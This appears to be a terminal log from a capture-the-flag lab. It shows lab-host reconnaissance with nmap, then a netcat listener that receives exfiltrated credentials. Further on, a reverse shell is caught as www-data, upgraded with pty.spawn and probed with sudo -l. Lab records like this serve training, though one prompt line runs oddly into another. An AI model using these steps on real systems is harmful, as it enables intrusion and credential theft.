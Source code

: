                                                                                                                     
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ping 10.10.21.204 
PING 10.10.21.204 (10.10.21.204) 56(84) bytes of data.
64 bytes from 10.10.21.204: icmp_seq=1 ttl=61 time=780 ms
64 bytes from 10.10.21.204: icmp_seq=2 ttl=61 time=740 ms
^C
--- 10.10.21.204 ping statistics ---
3 packets transmitted, 2 received, 33.3333% packet loss, time 2001ms
rtt min/avg/max/mdev = 740.242/760.345/780.448/20.103 ms
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ nmap -p41312 10.10.21.204          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 11:03 UTC
Nmap scan report for 10.10.21.204
Host is up (0.67s latency).

PORT      STATE    SERVICE
41312/tcp filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ cat writeup.md            
└─$ nc -nvlp 4444                    
listening on [any] 4444 ...
connect to [10.4.124.126] from (UNKNOWN) [10.10.113.114] 32822
POST / HTTP/1.1
Host: 10.4.124.126:4444
Connection: keep-alive
Content-Length: 32
Origin: http://127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/71.0.3542.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Referer: http://127.0.0.1/blog.php
Accept-Encoding: gzip, deflate

jack:WhyIsMyPasswordSoStrongIDK
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ nmap -p41312 10.10.21.204
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 11:06 UTC
Nmap scan report for 10.10.21.204
Host is up (0.69s latency).

PORT      STATE SERVICE
41312/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.54 seconds
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ nc -nvlp 1234                    
listening on [any] 1234 ...
connect to [10.4.124.126] from (UNKNOWN) [10.10.21.204] 55688
ls
5UP3r53Cr37.py
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ ls
ls
5UP3r53Cr37.py
www-data@ubuntu:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
